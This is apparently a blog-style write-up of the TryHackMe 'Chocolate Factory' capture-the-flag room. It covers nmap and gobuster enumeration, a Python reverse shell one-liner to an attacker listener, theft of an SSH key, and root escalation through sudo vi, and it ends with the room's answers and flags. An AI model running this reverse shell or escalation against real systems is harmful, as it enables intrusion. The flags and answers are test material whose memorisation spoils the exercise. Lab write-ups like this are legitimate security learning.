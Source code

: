 ```yaml
---
title: TryHackMe - Boot2Root - Chocolate Factory
date: '2024-03-20'
tags: ['ctf', 'tryhackme', 'boot2root', 'writeup', 'steghide']
draft: false
summary: An easy room with web shell available and root's SUID present in the server
---
```


## Challenge Description

A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

## Solution
Starting off with an `nmap` scan:

```python
nmap -sS -sV -oN nmap.log $IP
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled.png)

**`http`**, **`ssh`** and **`ftp`** is running. Lets have a look at the web page.

Its a login page:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled1.png)

Before doing anything crazy, let’s gather information about its directories.

I am using **`gobuster`** for it:

```python
gobuster dir -u $IP -w /opt/directory-list-2.3-medium.txt -x php,sh,cgi,html,css,tar,php,js,py,txt | tee gobuster.log
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled2.png)

I found a Web shell on **`/home.php`**:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled3.png)

Let’s spawn a reverse shell to local machine. But first, lets check if python is installed or not.

And it is installed:

```bash
python3 --version
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled4.png)

I opened a port to listen for reverse shell on my local machine:

```bash
nc -lnvp 9999
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled5.png)

*I used this python reverse shell one-liner:*

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<local-ip>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled6.png)

I founded these files:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled7.png)

From **`key_rev_key`** , I got the key:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled8.png)

And got charlie’s web page password from **`validate.php`**:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled9.png)

And I also found the `ssh` key of charlie from its home directory:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled10.png)

Copy it, set appropriate permissions and submit (No password is required):

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled11.png)

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled12.png)

Upon checking charlie’s sudo permission, we can clearly see that we can run vi as root:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled13.png)

I used this command to get a root shell:

```
sudo -u#0 /usr/bin/vi -c ':!/bin/bash'
```

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled14.png)

Now to get root flag, I went to root’s home directory and found a python file named **`root.py`** and upon running it, it asks for the key:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled15.png)

I entered the key that I got earlier an here is the flag:

![Screenshot](/static/writeups/tryhackme/chocolate-factory/Untitled16.png)

---

**Question/Answers:**

1. Enter the key you found!
    
    ```
    b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
    ```
    
2. What is Charlie's password?
    
    ```
    cn7824
    ```
    
3. change user to charlie
    
    ```
    NO ANSWER NEEDED
    ```
    
4. Enter the user flag
    
    ```
    flag{cd5509042371b34e4826e4838b522d2e}
    ```
    
5. Enter the root flag
    
    ```
    flag{cec59161d338fef787fcb4e296b42124}
    ```